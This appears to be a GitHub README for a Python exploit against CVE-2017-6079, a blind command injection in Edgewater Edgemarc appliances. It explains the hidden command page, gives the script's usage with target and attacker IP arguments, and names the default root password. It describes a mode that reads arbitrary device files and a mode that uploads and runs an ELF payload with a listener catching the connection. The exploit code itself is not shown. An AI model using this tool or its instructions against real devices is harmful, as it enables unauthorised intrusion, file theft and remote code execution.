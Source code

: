 Introduction
============
This exploit was developed based on the technical description by ```depthsecurity```
```
https://depthsecurity.com/blog/cve-2017-6079-blind-command-injection-in-edgewater-edgemarc-devices
```

Description
============
The HTTP web-management application on Edgewater Networks Edgemarc appliances has a hidden page that allows for user-defined commands such as specific iptables routes, etc., to be set. You can use this page as a web shell essentially to execute commands, though you get no feedback client-side from the web application: if the command is valid, it executes. An example is the wget command. The page that allows this has been confirmed in firmware as old as 2006.

Device Detection
===============
Nmap will identify the device from its web server as shown
![Alt text](pics/nmap.png?raw=true "nmap")


Usage
======
```
 _____    _                          _
| ____|__| | __ _  _____      ____ _| |_ ___ _ __
|  _| / _` |/ _` |/ _ \ \ /\ / / _` | __/ _ \ '__|
| |__| (_| | (_| |  __/\ V  V / (_| | ||  __/ |
|_____\__,_|\__, |\___| \_/\_/ \__,_|\__\___|_|
            |___/
 _____    _
| ____|__| | __ _  ___ _ __ ___   __ _ _ __ ___
|  _| / _` |/ _` |/ _ \ '_ ` _ \ / _` | '__/ __|
| |__| (_| | (_| |  __/ | | | | | (_| | | | (__
|_____\__,_|\__, |\___|_| |_| |_|\__,_|_|  \___|
            |___/
 _____            _       _ _
| ____|_  ___ __ | | ___ (_) |_
|  _| \ \/ / '_ \| |/ _ \| | __|
| |___ >  <| |_) | | (_) | | |_
|_____/_/\_\ .__/|_|\___/|_|\__|
           |_|


                 Edgewater Edgemarc Exploit CVE-2017-6079
                 Coded By: Mostafa Soliman
                 
    [USAGE] CVE-2017-6079.py [operation] [TargetIP] [AttackerIP] [FilePath]
    operation: Either read / upload
    AttackerIP: IP address to receive the connection on
    TargetIP: IP address of the target running Edgewater Edgemarc server
    FilePath:  Remote file to download in case of "read" operation
               Local file to upload in case of "upload" operation
```

Exploit
========
The exploit assumes that the device has default root password which is ```default``` if this is not the case you will need to replace the ```Authorization```
The exploit has 2 modes of operation:
#### 1. Read
This mode allow the attacker to read any files on the vulnerable device.

![Alt text](pics/read-exploit.png?raw=true "read")


#### 2. upload
This mode allow the attacker to upload ELF file payload to ```/tmp/``` folder and execute it.
You will need to start listner to recieve the connection.

![Alt text](pics/upload-exploit.png?raw=true "upload")


